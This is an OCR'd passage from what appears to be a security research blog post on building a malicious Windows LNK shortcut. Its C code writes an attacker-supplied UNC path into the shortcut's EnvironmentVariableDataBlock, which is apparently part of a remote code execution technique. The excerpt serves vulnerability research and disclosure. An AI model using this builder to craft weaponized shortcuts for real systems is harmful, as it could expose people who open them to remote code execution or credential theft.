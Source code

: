 ```c
        CloseHandle(hFile);
        return 1;
    }

    char ansiBuffer[260] = { 0 };
    strncpy(ansiBuffer, envUNC, 259);

    if (!WriteFile(hFile, ansiBuffer, 260, &bytesWritten, NULL)) {
        printf("Failed to write TargetAnsi: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    WCHAR unicodeBuffer[260] = { 0 };
    if (MultiByteToWideChar(CP_ACP, 0, envUNC, -1, unicodeBuffer, 260) == 0) {
        printf("Failed to convert to Unicode: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }

    if (!WriteFile(hFile, unicodeBuffer, 520, &bytesWritten, NULL)) {
        printf("Failed to write TargetUnicode: %lu\n", GetLastError());
        CloseHandle(hFile);
        return 1;
    }
```

If we compile the program and execute the LNK builder, we would see something like this in the LNK file structure and our `EnvironmentVariableDataBlock` was assigned with UNC path:
![1](https://raw.githubusercontent.com/nafiez/nlabs.github.io/master/images/RCE5.png)
